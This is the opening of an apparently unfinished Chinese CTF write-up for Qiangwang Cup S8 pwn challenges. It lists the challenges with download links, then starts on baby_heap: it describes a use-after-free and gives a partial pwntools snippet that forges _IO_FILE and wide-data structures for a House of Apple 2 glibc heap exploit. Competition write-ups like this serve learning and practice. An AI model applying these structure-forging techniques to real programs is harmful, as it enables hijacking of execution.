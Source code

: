 ```yaml
---
title: 强网杯S8 - Pwn 个人题解 // 未更完
published: true
---
```


| 目录跳转: |
|--------|
| [PWN: baby_heap 通解 - 附Exp](#pwn-baby_heap-通解) |
| [PWN: baby_heap 特解 - 附Exp](#pwn-baby_heap-特解) |
| [PWN: expect_number - 附Exp](#pwn-expect_number) |
| [PWN: prpr - 未更新](#pwn-prpr) |
| [PWN: chat_with_me 特解 - 附Exp](#pwn-chat_with_me-特解) |

| 文件下载: |
|--------|
| [baby_heap.zip](/image/qwbs8/baby_heap.zip) |
| [expect_number.zip](/image/qwbs8/expect_number.zip) |
| [prpr.zip](/image/qwbs8/prpr.zip) |
| [chat_with_me.zip](/image/qwbs8/chat_with_me.zip) |


# [](#header-3)pwn baby_heap 通解

这个题很适合当 large bin 大堆溢出打 House of Apple 2 链的板子题. 但是如果真这样做，会绕很多弯路，最优解应该是利用到 Secret Shop 修改 got 表  
通解没有利用到 Secret Shop 和 print_env，而是直接用的 large chunk 来打  

这个程序在堆已经被 释放 后依然可以向该堆写入内容，因此有了可乘之机. 首先构造 House of Apple 2 通用板子

```py
# 伪造 struct _IO_FILE_complete_plus
struct_file = flat({
	# struct _IO_FILE_complete -> _IO_FILE
	0:      0,                                          # file._flag
	0x18:   p64(leave_ret_c),                           # file._IO_read_base
	0x28:   p64(libc.symbols['_IO_list_all'] - 0x20),   # 写 IO_list_all - 0x20 的地址至 bk_size，下一次分配小堆元素时就会分配到这里
	0x48: 	p64(orw_addr),                              # file._IO_save_base
	0x88:   p64(lock),                                  # file._lock
	# struct _IO_FILE_complete
	0xa0:   p64(widedata_addr),                         # file._wide_data 
	# struct
	0xd8:   p64(wfile),                                 # file._vtable
}, filler=b'\0')

# 伪造 struct _IO_wide_data
struct_widedata  = flat({
	0xe0:	p64(widedata_addr + 0xe8),                  # _IO_wide_data._IO_read_ptr
	0x150:	p64(magic_gadget),                          # 
}, filler=b'\0')

```
